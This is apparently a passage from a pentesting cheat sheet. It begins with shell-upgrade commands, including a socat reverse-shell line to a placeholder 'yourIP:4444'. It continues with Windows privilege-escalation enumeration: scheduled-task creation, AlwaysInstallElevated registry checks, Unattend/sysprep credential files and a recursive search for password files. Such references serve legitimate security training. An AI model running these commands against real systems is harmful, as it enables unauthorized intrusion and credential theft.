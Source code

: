 ```socat file:`tty`,raw,echo=0 yourIP:4444```
* Expect

sh.exp
```
#!/usr/bin/expect
spawn sh
interact
```

* Script    
`script /dev/null`


## Inside Windows

* Get version     
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

* Get users     
`net users`

* Get user info     
`net user <username>`


* Check local connections and listening ports (compare with nmap scan to see if there are any hidden ports)     
`netstat -ano`

* Firewall status     
`netsh firewall show state`    
`netsh firewall show config`

* Scheduled tasks     
List - `schtasks /query /fo LIST /v`    
Create - `schtasks /Create /TN mytask /SC MINUTE /MO 1 /TR "mycommands"`     
Run - `schtasks /Run /TN mytask`    
Delete - `schtasks /Delete /TN mytask`    

* Running tasks     
List - `tasklist /SVC`    
Kill - `taskkill /IM <exe name> /F`    
Kill - `taskkill /PID <pid> /F`     

* Services     
List - `net start`     
Long name to key name `sc getkeyname "long name"`     
Details - `sc qc <key name>`     
Config - `sc config <key name> `    

* Low hanging fruits to grab     
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```

* Installers are running as elevated?     
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`    
`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`    

* Find interesting files     
`dir /s *pass* == *cred* == *vnc* == *.config*`     
```